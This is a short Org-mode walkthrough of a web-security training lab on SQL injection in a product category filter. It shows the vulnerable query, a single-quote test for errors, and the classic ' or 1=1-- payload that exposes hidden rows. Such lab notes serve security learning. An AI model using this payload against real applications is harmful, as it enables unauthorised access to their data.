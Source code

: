#+title: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#+description: Mindmap to solve this lab
#+author: Touhidul Shawan

* Solution

** SQL Injection on
~category~ filter

** Query
#+begin_SRC sql options
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
#+end_SRC sql

** End Goal
+ display details of all products

* Steps
Check for sql injection exists or not by inserting [ ' ] in the last of url.
+ sql injection exist -> give an error || not exist -> no error

** Inject Query
we can test with [ ' or 1=1-- ]
#+begin_SRC sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
#+end_SRC sql
will become
#+begin_SRC sql options
SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1
#+end_SRC sql
